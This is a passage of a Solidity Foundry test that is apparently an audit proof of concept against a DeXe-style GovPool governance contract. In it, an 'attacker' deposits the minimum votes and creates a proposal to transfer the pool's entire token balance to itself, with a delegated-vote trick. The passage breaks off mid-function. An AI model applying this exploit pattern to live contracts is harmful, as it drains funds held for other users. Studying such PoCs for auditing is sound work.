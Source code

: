```solidity
        deal(userA, 10 ether);
        deal(dexeToken, attacker, 500_000 * ONE_TOKEN);
        deal(dexeToken, userA, 1_000_000 * ONE_TOKEN);

        deal(attackerTmp, 1 ether);
        console.log("\n>>> Initial conditions");
    }

    function testGovPool() public {
        uint256[] memory nftIds = new uint256[](0);
        uint256 proposalId;
        uint256 requiredQuorum;
        uint256 depositAmount;

        console.log("");
        console.log("------------ 1. Deposit minVotesForCreating ------------------");
        // 1. Deposit
        {
            vm.startPrank(attacker);
            // Deposit minVotesForCreating
            depositAmount = minVotesForCreating;
            dexeToken.approve(address(userKeeper), depositAmount);
            console.log(">>> Deposit minVotesForCreating to create a proposal.");
            govPool.deposit(depositAmount, nftIds);
            vm.stopPrank();
        }

        console.log("");
        console.log("------------ 2. Create a proposal ----------------------------");
        // 2. Create a proposal
        {
            vm.startPrank(attacker);

            // proposal detail
            string memory description_url = "";

            IGovPool.ProposalAction[] memory actionsOnFor = new IGovPool.ProposalAction[](2);

            // to transfer whole tokens of GovPool from GovPool to the attacker address.
            uint256 totalAmountOfGovPool = dexeToken.balanceOf(address(govPool));
            actionsOnFor[0].executor = address(dexeToken);
            actionsOnFor[0].data = abi.encodeWithSignature("transfer(address,uint256)", attacker, totalAmountOfGovPool);

            proposalId = govPool.latestProposalId() + 1;

            // for delegatedVote
            actionsOnFor[1].executor = 0x1cB61F66b04D4fB279d323fa714562076cc7E032;
            actionsOnFor[1].data = abi.encodeWithSignature("proposals(uint256)", proposalId);

            IGovPool.ProposalAction[] memory actionsOnAgainst = new IGovPool.ProposalAction[](0);

            console.log(">>> Create a proposal to transfer whole tokens of GovPool from GovPool to the attacker address");
            console.log(">>> The votingType is delegatedVotingAllowed");

            // create a proposal
            govPool.createProposal(description_url, actionsOnFor, actionsOnAgainst);
            console.log("proposalIdCreated             : ", proposalId);

            requiredQuorum = govPool.getProposalRequiredQuorum(proposalId);
            console.log("RequiredQuorum                : ", requiredQuorum);

```